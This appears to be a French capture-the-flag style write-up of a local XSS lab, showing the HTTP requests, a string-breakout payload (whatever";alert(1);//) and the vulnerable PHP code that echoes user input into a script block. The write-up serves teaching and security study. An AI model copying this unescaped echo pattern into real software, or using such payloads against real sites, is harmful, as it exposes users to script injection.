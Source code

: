 # xss3

## Exploitation

A nouveau une fonctionnalité de recherche pour ce troisième challenge, mais le mot renseigné doit être un nom d'utilisateur :&#x20;

![](<../../../.gitbook/assets/image (47).png>)

Lorsque je renseigne un nom d'utilisateur, il n'est ni réfléchi dans un message d'erreur, ni en tant que valeur du champ :&#x20;

```http
POST /xss3/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss3/

name=whatever&submit=Envoyer
```

Je recherche alors le nom directement dans la réponse HTTP :&#x20;

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 1908
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html>
  <head>
    <title>XSS 3</title>
    <link rel="stylesheet" href="../static/css/bootstrap.min.css" />
  </head>
  <body>
    ...
    <script>
      var name="whatever";
    </script>
  </body>
</html>
```

Le nom d'utilisateur renseigné est donc présent en tant que valeur d'une variable Javascript. Je tente assez simplement de sortir de la valeur avec le `"` puis d'exécuter l'affichage de la modale. Le commentaire, à la fin de ma payload, va permettre de se débarrasser des caractères superflus provenant de la concaténation effectuée dans le code `whatever";alert(1);//` :

```http
POST /xss3/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss3/

name=whatever%22%3Balert%281%29%3B%2F%2F&submit=Envoyer
```

![](<../../../.gitbook/assets/image (45).png>)

## Analyse du code source

Le nom d'utilisateur renseigné est récupéré dans la variable `$username`. Cette variable est affichée grâce à la directive `echo` directement au sein d'un bloc Javascript en tant que valeur de la variable `name` :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['name'])) {
    $username = $_POST['name'];
  }
?>

<script>
    <?php if (isset ($username) && !empty ($username)): echo ("var name=\"$username\";");?>
    <?php endif; ?>
</script>
```
